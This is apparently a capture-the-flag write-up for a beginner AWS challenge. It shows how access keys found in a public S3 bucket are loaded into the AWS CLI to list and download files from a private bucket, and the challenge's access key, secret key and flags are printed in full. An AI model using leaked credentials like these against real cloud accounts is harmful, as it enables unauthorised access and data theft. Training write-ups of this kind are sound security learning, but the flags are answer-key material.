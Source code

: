 ![](images/1-header.png)
# TEASER: Locked out
### beginner | cloud | 50 points
<br/>

## Challenge Information
After a relaxing space walk, you realize that you have been locked out of your spaceship by the spaceship's AI. Thankfully, you remember that you prepared for this eventuality by storing access keys in an external storage.
<br/><br />

## Sub-Challenges
### [25 points] Obtaining external access keys
Open the external storage and see if there's something useful in there.

### Solution

The link to the external storage leads to `https://external-spaceship-storage-b38e8c6.s3-eu-west-1.amazonaws.com`, an AWS S3 bucket.

![](images/1-external-storage.png)

There is an item called `external-spaceship-storage.txt`. The file can be downloaded by typing the filename in the URL, i.e., `https://external-spaceship-storage-b38e8c6.s3-eu-west-1.amazonaws.com/external-spaceship-storage.txt`.

The contents are as follows:

```
AKIAQD6AU4VDTDJRGXRE
+BAPTBu9QFX6TVSpjerFoIJiJJr1D+c210ZyKdqv
CTF{6c2c45330a85b126f551}
```

The last line is the flag for the first sub-challenge, and the rest of the information will be useful for the next sub-challenge.

Flag: `CTF{6c2c45330a85b126f551}`
<br/><br /> 


### [25 points] Checking your internal storage
You have managed to get keys. See if you can get inside and check the internal spaceship storage.

### Solution
This part took me FOREVER to figure out due to the fact that I had absolutely no clue how AWS S3 buckets work. Looking through some cloud challenges from other CTFs and the AWS docs, I figured that remaining information from `external-spaceship-storage.txt` is what helps to complete this challenge. 

```markdown
AKIAQD6AU4VDTDJRGXRE - AWS Access Key ID
+BAPTBu9QFX6TVSpjerFoIJiJJr1D+c210ZyKdqv - AWS Secret Access Key
```

From the AWS Documentation:
> AWS requires different types of security credentials depending on how you access AWS. For example, you need a user name and password to sign in to the AWS Management Console and you need access keys to make programmatic calls to AWS or to use the AWS Command Line Interface or AWS Tools for PowerShell.

So the AWS Access Key ID and Secret Access Key are credentials for an AWS account. This can be configured in the AWS CLI (Command Line Interface) to view buckets and items within those buckets associated with the account. The steps to install AWS CLI for your system can be found [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-install.html).

Once installed, we configure AWS CLI with these credentials. Using `--profile` helps to distinguish between different credentials.
```bash
piyagehi@Piyas-MacBook-Pro:~$ aws configure --profile=locked-out
AWS Access Key ID [None]: AKIAQD6AU4VDTDJRGXRE
AWS Secret Access Key [None]: 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
Default region name [None]: eu-west-1
Default output format [None]: 
```

Listing all buckets reveals an internal storage bucket, which contains a keys text file.
```bash
piyagehi@Piyas-MacBook-Pro:~$ aws s3 ls --profile=locked-out
2021-06-24 19:36:05 external-spaceship-storage-b38e8c6
2021-06-24 19:35:27 internal-spaceship-storage-fdde98f
piyagehi@Piyas-MacBook-Pro:~$ aws s3 ls internal-spaceship-storage-fdde98f --profile=locked-out
2021-06-24 19:35:33 25 spaceship-keys
```

Downloading and viewing the file reveals the flag for this sub challenge
```bash
piyagehi@Piyas-MacBook-Pro:~$ aws s3 cp s3://internal-spaceship-storage-fdde98f/spaceship-keys . --profile=locked-out
download: s3://internal-spaceshipstoragefdde98f/spaceship-keys to ./spaceship-keys
piyagehi@Piyas-MacBook-Pro:~$ cat spaceship-keys 
CTF{4ababede5580d9a22a2a}
```

Flag: `CTF{4ababede5580d9a22a2a}`
<br/><br />


